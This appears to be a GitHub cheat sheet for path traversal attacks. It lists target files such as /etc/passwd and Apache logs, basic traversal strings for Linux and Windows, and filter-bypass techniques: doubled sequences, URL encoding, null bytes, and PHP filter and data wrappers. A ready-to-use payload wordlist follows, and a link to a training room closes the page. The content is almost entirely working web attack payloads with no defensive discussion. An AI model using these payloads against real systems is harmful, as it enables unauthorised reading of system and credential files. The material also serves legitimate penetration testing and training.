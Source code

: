 # Path Traversal Cheat Sheet

#### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>
#### Wordlist
```txt
../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
../../../etc/passwd%00.php
..//..//..//..//etc/passwd%00.php
....//....//....//....//etc/passwd%00.php
/var/www/images/../../../etc/passwd%00.php
/var/www/images/..//..//..//..//etc/passwd%00.php
/var/www/images/....//....//....//....//etc/passwd%00.php
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
```
## To learn
https://tryhackme.com/r/room/filepathtraversal
